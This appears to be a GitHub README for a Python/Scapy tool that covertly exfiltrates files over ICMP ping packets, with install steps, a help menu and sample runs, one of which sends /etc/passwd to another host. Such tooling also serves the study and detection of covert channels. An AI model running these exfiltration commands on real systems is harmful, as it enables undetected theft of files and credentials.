# ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```
or
```bash 

sudo apt install python3-scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display and also in the same time the script
will save the output to indicate file.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py -i <Adaptor name / IP Address> -m <Mode> -f <Filename>   
――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――

┃  [-i] Network Adaptor name

┃  [-m] Mode to use

         send
         recv

┃  [-f] File name to save data or to send.

┃  [-h] Help Panel
                      
```

### Usage
#### Receiving data
```bash
sudo python3 icmp_exfiltration.py -i wlan0 -m recv -f mydata
                                                                                                                                                                                      
┃  [*]  Listening for any incoming connections...                                                                                                                                         
                                                                                                                                                                                          
┃  [*]  Saving data to file 

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```

#### Sending data
```bash
❯ sudo python3 icmp_exfiltration.py -i 127.0.0.1 -m send -f /etc/passwd

┃  [*]  Hosts active,  Linux system

┃  [*]  Trying to send file..

100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 560000/560000 [00:00<00:00, 4217833.49it/s]

┃  [*]  File sent successfully
```

## Test

https://user-images.githubusercontent.com/74554439/158271576-cd6a262e-fb1e-41b7-afbd-19e7f231143a.mp4
